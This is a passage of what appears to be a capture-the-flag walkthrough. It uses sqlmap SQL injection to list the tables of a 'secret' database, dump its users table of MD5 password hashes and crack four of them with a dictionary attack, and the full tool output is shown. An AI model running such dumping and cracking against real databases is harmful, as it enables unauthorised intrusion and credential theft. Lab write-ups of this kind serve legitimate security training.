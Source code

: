 

`secret` is interesting. I'll start there.

Replace `--dbs` with `-D secret --tables`:



    [20:37:07] [INFO] fetching tables for database: 'secret'
    Database: secret
    [1 table]
    +-------+
    | users |
    +-------+



Now I'll dump that table with `-D secret -T users --dump`:



    [20:37:30] [INFO] fetching columns for table 'users' in database 'secret'
    [20:37:30] [INFO] fetching entries for table 'users' in database 'secret'
    [20:37:31] [INFO] recognized possible password hashes in column '`Password`'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [20:37:31] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [20:37:31] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [20:37:31] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [20:37:31] [INFO] starting 4 processes 
    [20:37:32] [INFO] cracked password 'barcelona' for user 'Malek'
    [20:37:34] [INFO] cracked password 'popcorn' for user 'Dumah'
    [20:37:34] [INFO] cracked password 'pussycatdolls' for user 'Ariel'
    [20:37:34] [INFO] cracked password 'santiago' for user 'Moebius'
    Database: secret
    Table: users
    [10 entries]
    +----------+--------------------------------------------------+
    | Username | Password                                         |
    +----------+--------------------------------------------------+
    | Kain     | 33903fbcc0b1046a09edfaa0a65e8f8c                 |
    | Raziel   | 719da165a626b4cf23b626896c213b84                 |
    | Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls) |
    | Dimitri  | d459f76a5eeeed0eca8ab4476c144ac4                 |
    | Magnus   | 370fc3559c9f0bff80543f2e1151c537                 |
    | Zephon   | 13fa8abd10eed98d89fd6fc678afaf94                 |
    | Turel    | d322dc36451587ea2994c84c9d9717a1                 |
    | Dumah    | 33da7a40473c1637f1a2e142f4925194 (popcorn)       |
    | Malek    | dea56e47f1c62c30b83b70eb281a6c39 (barcelona)     |
    | Moebius  | a6f30815a43f38ec6de95b9a9d74da37 (santiago)      |
    +----------+--------------------------------------------------+

